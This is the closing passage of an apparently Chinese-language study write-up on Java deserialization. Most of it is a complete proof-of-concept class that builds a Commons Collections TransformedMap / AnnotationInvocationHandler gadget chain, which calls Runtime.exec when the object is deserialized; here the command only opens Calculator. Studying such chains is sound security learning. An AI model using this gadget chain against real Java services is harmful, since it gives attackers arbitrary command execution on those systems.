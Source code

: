 ```
                }
            }
        }
    }
}
```

最终的测试Poc
```
public class SerialBug {

    public static void main(String[] args) throws Exception {
        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream(new File("SerialBug")));
        objectOutputStream.writeObject(get());
        objectOutputStream.flush();
        objectOutputStream.close();

        // 反序列化
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(new File("SerialBug")));
        objectInputStream.readObject();
        objectInputStream.close();
    }

    public static Object get() throws NoSuchMethodException, IllegalAccessException, InvocationTargetException, InstantiationException, ClassNotFoundException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "open /System/Applications/Calculator.app" }) };

        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("KEY", "VALUE");

        Map<String, Object> transformedMap = TransformedMap.decorate(map, null, transformerChain);

        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Retention.class, transformedMap);
        return instance;
    }
}
```

以上分析仅仅是拾人牙慧，有很多理解不到位的地方，有兴趣学习的同学可以移步以上提到的文章链接，原汁原味，更加详细